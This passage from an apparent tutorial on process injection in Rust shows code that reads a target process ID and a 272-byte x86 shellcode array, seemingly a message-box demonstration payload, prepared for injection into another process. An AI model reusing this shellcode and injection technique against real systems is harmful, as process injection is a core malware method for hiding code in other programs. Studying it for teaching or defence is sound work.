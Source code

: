 In order to get the PID of the target process as argument, we can use the std::env::args. The code below checks if the user has specified the PID as argument, if not, it prints the usage string, otherwise it saves the value in the **pid** variable.

```rust
fn main() {

    let args: Vec<String> = args().collect();

    if args.len() < 2{
        println!("Usage: rustware.exe PID");
        return
    }

    let pid: u32 = args[1].parse().unwrap();
```

The payload is contained in an array of 272 unsigned 8-bit integers. The payload length is calculated using the **.len()**. function, and the **.payload_ptr**. variable (use **.std::ffi::c_void**.) contains a pointer to the payload, we get it by using the **.as_ptr()**. to get a raw pointer to the payload and then casting the raw pointer to a **\*const c_void**.

```rust
let payload : [u8; 272]= [ 
                                0xd9, 0xeb, 0x9b, 0xd9, 0x74, 0x24, 0xf4, 0x31, 0xd2, 0xb2, 0x77, 0x31, 0xc9, 0x64, 0x8b,0x71,
                                0x30, 0x8b, 0x76, 0x0c, 0x8b, 0x76, 0x1c, 0x8b, 0x46, 0x08, 0x8b, 0x7e, 0x20, 0x8b, 0x36, 0x38,
                                0x4f, 0x18, 0x75, 0xf3, 0x59, 0x01, 0xd1, 0xff, 0xe1, 0x60, 0x8b, 0x6c, 0x24, 0x24, 0x8b, 0x45,
                                0x3c, 0x8b, 0x54, 0x28, 0x78, 0x01, 0xea, 0x8b, 0x4a, 0x18, 0x8b, 0x5a, 0x20, 0x01, 0xeb, 0xe3,
                                0x34, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xee, 0x31, 0xff, 0x31, 0xc0, 0xfc, 0xac, 0x84, 0xc0, 0x74,
                                0x07, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xeb, 0xf4, 0x3b, 0x7c, 0x24, 0x28, 0x75, 0xe1, 0x8b, 0x5a,
                                0x24, 0x01, 0xeb, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x5a, 0x1c, 0x01, 0xeb, 0x8b, 0x04, 0x8b, 0x01,
                                0xe8, 0x89, 0x44, 0x24, 0x1c, 0x61, 0xc3, 0xb2, 0x08, 0x29, 0xd4, 0x89, 0xe5, 0x89, 0xc2, 0x68,
                                0x8e, 0x4e, 0x0e, 0xec, 0x52, 0xe8, 0x9f, 0xff, 0xff, 0xff, 0x89, 0x45, 0x04, 0xbb, 0x7e, 0xd8,
                                0xe2, 0x73, 0x87, 0x1c, 0x24, 0x52, 0xe8, 0x8e, 0xff, 0xff, 0xff, 0x89, 0x45, 0x08, 0x68, 0x6c,
                                0x6c, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2e, 0x64, 0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xdb, 0x88,
                                0x5c, 0x24, 0x0a, 0x89, 0xe6, 0x56, 0xff, 0x55, 0x04, 0x89, 0xc2, 0x50, 0xbb, 0xa8, 0xa2, 0x4d,
                                0xbc, 0x87, 0x1c, 0x24, 0x52, 0xe8, 0x5f, 0xff, 0xff, 0xff, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68,
                                0x77, 0x61, 0x72, 0x65, 0x68, 0x52, 0x75, 0x73, 0x74, 0x31, 0xdb, 0x88, 0x5c, 0x24, 0x08, 0x89,
                                0xe3, 0x68, 0x6e, 0x58, 0x20, 0x20, 0x68, 0x63, 0x74, 0x69, 0x6f, 0x68, 0x49, 0x6e, 0x6a, 0x65,
                                0x68, 0x65, 0x73, 0x73, 0x20, 0x68, 0x50, 0x72, 0x6f, 0x63, 0x31, 0xc9, 0x88, 0x4c, 0x24, 0x11,
                                0x89, 0xe1, 0x31, 0xd2, 0x52, 0x53, 0x51, 0x52, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xff, 0x55, 0x08
                                ];   
    let payload_len = payload.len();
    let payload_ptr: *const c_void = payload.as_ptr() as *const c_void;
```
